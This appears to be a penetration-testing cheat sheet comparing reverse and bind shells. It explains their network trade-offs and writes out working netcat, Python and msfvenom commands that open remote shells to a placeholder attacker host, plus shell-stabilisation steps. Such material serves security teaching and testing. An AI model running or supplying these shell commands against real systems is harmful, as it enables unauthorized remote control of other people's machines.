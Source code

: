    

Reverse vs Bind Shell

# **Reverse Shell vs Bind Shell**

## **1. Understanding Reverse and Bind Shells**

A shell is a command-line interface that allows interaction with a system. Attackers use **reverse shells** and **bind shells** to gain remote access to a target machine.

|Type|How it Works|When to Use|
|---|---|---|
|**Reverse Shell**|The target machine connects back to the attacker's machine.|When the target is behind NAT or a firewall, making direct access difficult.|
|**Bind Shell**|The target machine opens a listening port, and the attacker connects to it.|When testing externally, as any public IP can access the shell. Useful when the target has a public IP and allows incoming connections.|

---

## **2. Reverse Shell**

### **How It Works**

- The **target** initiates the connection to the **attacker**.
- The **attacker's machine must be listening** on a port.
- Useful when the target is behind a **firewall or NAT**.

### **Setting Up a Reverse Shell**

#### **Netcat (Linux)**

**Attacker (Listening Mode)**:

nc -lvnp 4444

```
nc -lvnp 4444
```

**Target (Connecting Back)**:

nc <attacker-ip> 4444 -e /bin/bash

```
nc <attacker-ip> 4444 -e /bin/bash
```

#### **Netcat (Windows)**

nc.exe -e cmd.exe <attacker-ip> 4444

```
nc.exe -e cmd.exe <attacker-ip> 4444
```

#### **Metasploit Payload**

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f elf > shell.elf

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f elf > shell.elf
```

#### **Python Reverse Shell**

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker-ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker-ip>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

---

## **3. Bind Shell**

### **How It Works**

- The **target machine opens a port** and waits for a connection.
- The **attacker connects to this port** to gain access.
- Requires **firewall rules to allow incoming connections**.
- Best when the target has a **public IP**.

### **Setting Up a Bind Shell**

#### **Netcat (Linux)**

**Target (Listening Mode)**:

nc -lvnp 4444 -e /bin/bash

```
nc -lvnp 4444 -e /bin/bash
```

**Attacker (Connecting)**:

nc <target-ip> 4444

```
nc <target-ip> 4444
```

#### **Netcat (Windows)**

nc.exe -lvp 4444 -e cmd.exe

```
nc.exe -lvp 4444 -e cmd.exe
```

#### **Metasploit Payload**

msfvenom -p windows/meterpreter/bind_tcp LPORT=4444 -f exe > shell.exe

```
msfvenom -p windows/meterpreter/bind_tcp LPORT=4444 -f exe > shell.exe
```

---

## **4. Choosing Between Reverse and Bind Shell**

|Scenario|Best Option|Why?|
|---|---|---|
|Target is behind a firewall or NAT|**Reverse Shell**|The firewall usually allows outbound connections, making it easier to bypass.|
|Target has a public IP and allows incoming connections|**Bind Shell**|No need for the attacker to know the target's NAT settings.|
|Attacker has a dynamic IP|**Bind Shell**|The attacker's IP is irrelevant since they initiate the connection.|
|Port forwarding or NAT traversal is an issue|**Reverse Shell**|Works even when the target is behind NAT.|

---

## **5. Stabilizing a Shell**

Once you get a shell, you often need to **stabilize** it to use features like `tab completion` and `clear screen`.

### **Upgrading to an Interactive Shell**

python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

Or using `script`:

script /dev/null -c bash

```
script /dev/null -c bash
```

---

This section covers the key differences, setup, and use cases of **reverse** and **bind shells**, helping to determine the right approach depending on the target's **network environment**.